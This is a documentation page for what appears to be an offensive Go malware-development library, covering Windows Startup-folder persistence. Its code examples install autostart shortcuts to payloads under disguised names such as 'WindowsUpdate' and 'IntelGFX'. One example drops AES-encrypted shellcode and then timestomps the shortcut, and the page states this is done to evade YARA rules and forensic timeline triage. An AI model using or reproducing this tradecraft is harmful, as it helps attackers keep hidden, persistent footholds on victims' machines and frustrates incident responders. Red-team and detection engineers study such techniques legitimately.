

# StartUp Folder Persistence

[<- Back to Persistence Overview](README.md)

**MITRE ATT&CK:** [T1547.001](https://attack.mitre.org/techniques/T1547/001/), [T1547.009 - Shortcut Modification](https://attack.mitre.org/techniques/T1547/009/)
**Package:** `persistence/startup`
**Platform:** Windows
**Detection:** Medium

---

## Primer

Windows has a special "Startup" folder. Any shortcut (.lnk) placed in this folder is automatically launched when the user logs on. This technique creates a shortcut pointing to the payload using COM/OLE automation.

---

## How It Works



---

## Usage

```go
import "github.com/oioio-space/maldev/persistence/startup"

// Install shortcut in user's Startup folder
err := startup.Install("WindowsUpdate", `C:\Temp\payload.exe`, "--silent")

// Check
exists := startup.Exists("WindowsUpdate")

// Remove
err = startup.Remove("WindowsUpdate")
```

---

## Advanced — Machine-Wide Install via Mechanism Interface

`InstallMachine` writes to `%ALLUSERSPROFILE%\...\Startup` (requires admin)
so the shortcut fires for every user, not just the current one. The
`Shortcut()` helper returns a `Mechanism` interface, composable with the
rest of the persistence tier.

```go
import (
    "log"

    "github.com/oioio-space/maldev/persistence/startup"
)

// Per-user shortcut (no elevation).
m := startup.Shortcut("IntelUpdate", `C:\ProgramData\Intel\agent.exe`, "")
if err := m.Install(); err != nil {
    log.Fatal(err)
}

// Machine-wide shortcut (requires admin token).
if err := startup.InstallMachine(
    "IntelUpdate",
    `C:\ProgramData\Intel\agent.exe`,
    "",
); err != nil {
    log.Fatal(err)
}

installed, _ := m.Installed()
log.Printf("installed: %v", installed)
```

---

## Combined Example — Drop + Startup + Timestomp

Drop an encrypted payload, register it as a per-user Startup shortcut, then
timestomp the LNK file itself to predate the investigation window.

```go
package main

import (
    "fmt"
    "log"
    "os"

    "github.com/oioio-space/maldev/cleanup/timestomp"
    "github.com/oioio-space/maldev/crypto"
    "github.com/oioio-space/maldev/persistence/startup"
)

func main() {
    const drop = `C:\Users\Public\Intel\gfx.exe`

    // 1. Encrypt payload and drop to disk.
    key, _ := crypto.NewAESKey()
    payload := []byte{ /* shellcode / loader */ }
    blob, _ := crypto.EncryptAESGCM(key, payload)
    _ = os.MkdirAll(`C:\Users\Public\Intel`, 0o755)
    _ = os.WriteFile(drop, blob, 0o644)

    // 2. Register Startup LNK.
    if err := startup.Install("IntelGFX", drop, ""); err != nil {
        log.Fatal(err)
    }

    // 3. Timestomp the LNK so timeline triage places it in the OS install
    //    window, not today.
    startDir, _ := startup.UserDir()
    lnk := fmt.Sprintf(`%s\IntelGFX.lnk`, startDir)
    if err := timestomp.CopyFromFull(`C:\Windows\System32\svchost.exe`, lnk); err != nil {
        log.Printf("timestomp lnk: %v", err)
    }
}
```

Layered benefit: encrypted binary defeats YARA file-content rules; Startup
LNK survives user-level persistence without registry or task-scheduler noise;
timestomped LNK doesn't stand out in `dir /tq` forensics.

---

## API Reference

See [persistence.md](../../persistence.md#persistencestartup----startup-folder-lnk-shortcuts)
